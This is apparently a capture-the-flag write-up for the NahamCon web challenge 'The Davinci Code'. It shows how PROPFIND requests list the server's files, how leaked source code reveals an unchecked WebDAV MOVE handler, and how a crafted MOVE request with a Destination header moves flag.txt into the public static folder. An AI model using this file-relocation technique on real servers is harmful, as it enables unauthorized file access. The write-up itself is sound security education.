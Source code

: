 # The Davinci Code
Uhhh, someone made a Da Vinci Code fan page? But they spelt it wrong, and it looks like the website seems broken...

# Flag

# Solution
Clicking on the button redirects to `/code` and shows a "Template Not Found" error. Inspecting the errors allows us to see some server code. Interesting lines in `/app/app.py` include:

```python
# File "/app/app.py", line 67, in code
        abort(405)
    abort(404)
 
@app.route('/code')
def code():
    return render_template("code.html")
 
@app.route('/', methods=['GET', 'PROPFIND'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
```

Using Postman to send a PROPFIND request returns this:

```xml
<D:multistatus xmlns:D="DAV:">
    <D:response>
        <D:href>/</D:href>
        <D:propstat>
            <D:prop>
                <D:message>WebDAVinci Code</D:message>
                <D:directory>True</D:directory>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/__pycache__</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>__pycache__</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/templates</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>templates</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/app.py</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>app.py</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/static</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>static</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
    <D:response>
        <D:href>/the_secret_dav_inci_code</D:href>
        <D:propstat>
            <D:prop>
                <D:displayname>the_secret_dav_inci_code</D:displayname>
            </D:prop>
            <D:status>HTTP/1.1 200 OK</D:status>
        </D:propstat>
    </D:response>
</D:multistatus>
```

Exploring the filesystem, there are some files of interest:
```
/the_secret_dav_inci_code/flag.txt
/static/app.py.backup
```

The backup file gives us access to the server source code. See `app-backup.py`. We see that the server serves us any file we request for in the `/static/` directory.

```python
@app.route('/static/<path:filename>')
def static_files(filename):
    return send_from_directory('static', filename)
```


We also find out an API that manages MOVE requests. The request moves a file from a source path (defined in the request parameter) to a destination path  (defined in the "Destination" header).

```python
@app.route('/<path:path>', methods=['GET', 'PROPFIND', 'MOVE'])
def handle_webdav(path):
    full_path = os.path.join(os.getcwd(), path)
    if request.method == 'PROPFIND':
        ...
        ...
    elif request.method == 'MOVE':
        destination = request.headers.get('Destination')
        if destination:
            destination_path = os.path.join(os.getcwd(), destination.strip('/'))
            os.makedirs(os.path.dirname(destination_path), exist_ok=True)
            shutil.move(full_path, destination_path)
            return Response(status=204)
        abort(405)
    abort(404)
```

Constructing a request to move the flag file to `/static/`:

```
MOVE http://challenge.nahamcon.com:31228/the_secret_dav_inci_code/flag.txt

<Standard headers>
Destination: static
```

Visit `http://challenge.nahamcon.com:31228/static/flag.txt` to get the flag.

